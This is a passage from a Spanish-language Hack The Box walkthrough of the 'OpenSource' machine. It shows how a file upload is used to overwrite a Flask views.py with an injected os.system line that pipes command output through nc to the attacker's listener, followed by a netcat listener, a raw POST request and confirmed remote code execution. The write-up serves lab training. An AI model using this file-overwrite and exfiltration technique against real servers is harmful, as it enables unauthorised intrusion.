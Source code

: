   ```py
  ...
  def upload_file():
    if request.method == 'POST':
    ...
    os.system('id; hostname | nc 10.10.14.7 4433')
    ...
  ```

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471burp_req_upcloud_viewsPYidYhostname.png" style="width: 100%;"/>

  Esto lo que hará será enviar (si es que existe `nc`) el resultado del comando `id` y `hostname` al puerto **4433** del servidor **10.10.14.7**, o sea nuestra IP, levantemos ese puerto:

  ```bash
  ❱ nc -lvp 4433
  listening on [any] 4433 ...
  ```

> <span style="color: yellow;"> Así fue como yo lo hice en primer momento, pero despues encontre otra forma (abajo la digo) de evitar esto:</span> <span style="color: red;">Me di cuenta que esta modificación causa un error extraño y hace que el "**home**" de la web desaparezca y que ahora `/upcloud` se aloje en `/`</span> Ya veremos de que hablo...

Entonces lo que queremos lograr con esa modificación es sencillo, la subida del archivo alterara el objeto del sistema `/app/app/views.py` y una vez sea ejecutado (o sea, una vez se suba un objeto) llegaría a la línea que agregamos y ejecutaría los comandos :O

Hagámosle!

Damos clic en **Send** para modificar el archivo del sistema y la respuesta es favorable, peeeeero acá encontramos lo que referencie antes, por alguna razón se explota la ruta `/upcloud` y al intentar ejecutar nuestros comandos obtenemos que no existe la ruta:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471burp_res_upcloud_viewsPYidYhostname404.png" style="width: 100%;"/>

Solo que si ahora quitamos `/upcloud` de acá:

```txt
POST /upcloud HTTP/1.1
Host: 10.10.11.164
...
```

Obtenemos que el archivo se subió correctamente de nuevo PEEEEEEERO TAMBIEEEEEEEEEEEN:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_rce_viewsPY_hostnameDocker.png" style="width: 100%;"/>

Vemos que la dirección IP **10.10.11.164** nos envió una petición con el contenido del comando `hostname` (el de **id** nop, quizás no le gusta concatenar) y efectivamente estamos en un Docker (lo sabemos por el nombre del hostname (random)), pero lo más importante: **TENEMOS RCEEEEE** (:

Obtengamos una **reverse shell (una terminal de comandos remota)** (: Pero ahora no rompamos nada para no dañar la experiencia de los demás :P

Quitamos la línea que agregamos en `upload_file()` y nos hacemos una nueva función al final del objeto:

